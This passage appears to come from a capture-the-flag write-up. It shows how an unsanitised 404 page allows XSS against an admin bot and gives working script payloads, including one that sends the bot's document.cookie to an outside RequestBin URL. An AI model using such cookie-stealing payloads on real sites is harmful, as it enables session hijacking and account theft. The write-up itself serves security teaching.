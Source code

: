 Code like this always puts a smile on my face because it doesn't actually sanitize the URL request parameter before rendering it to the page. When we request a non-existent page on the web application, we get a simple html page: `URL http://localhost:1337/xss not found`. The obvious next step is to request a page with the html script tags to see if we have XSS - `http://localhost:1337/<script>alert('xss')</script>` and indeed we do:

<img src="/assets/images/posts/cyberApocalypse2021/br2.png" style="margin-left: auto; margin-right: auto; margin-bottom: 0; display: block;"/>

Since we are provided with the source code, we can build the application docker container locally and test whether or not such a link will trigger XSS on the bot. We can test that by crafting a link that will navigate the bot to a non-existent page: 

```javascript
http://127.0.0.1:1337/<script>document.location="http://127.0.0.1:1337/XSS"</script>
```

If the XSS is triggered, we will see a request for that page in the local server logs and when we submit the link to the bot we do:

```
127.0.0.1 - - "GET /%3Cscript%3Edocument.location=%22http://127.0.0.1:1337/XSS%22%3C/script%3E HTTP/1.1" 404
127.0.0.1 - - "GET /XSS HTTP/1.1" 404
```

### Exfiltrating the XSS Output

We have now confirmed blind XSS on the bot. We can grab its cookie directly with `document.cookie`, however, there is no output being produced on the page by the bot, so we can't directly exfiltrate it to the page for us to see. We need an outside webpage which the bot will hit and send its cookie to, and [RequestBin](https://requestbin.io/) is the perfect solution to that. Request Bin allows us to create a listener for HTTP requests and you can think of it as netcat for HTTP. Once we create a bin and get a link, we can have the bot hit that URL and its request data will be captured for us to see. We are ultimately after its cookie, so all we need at this point is a link we will submit to the bot that will have it browse to our Request Bin and append the cookie at the end:

```
http://127.0.0.1:1337/<script>document.location="https://requestbin.io/1234?cookie="+document.cookie</script>
```

And we successfully get the cookie back:

<img src="/assets/images/posts/cyberApocalypse2021/br3.png" style="margin-left: auto; margin-right: auto; margin-bottom: 0; display: block;"/>

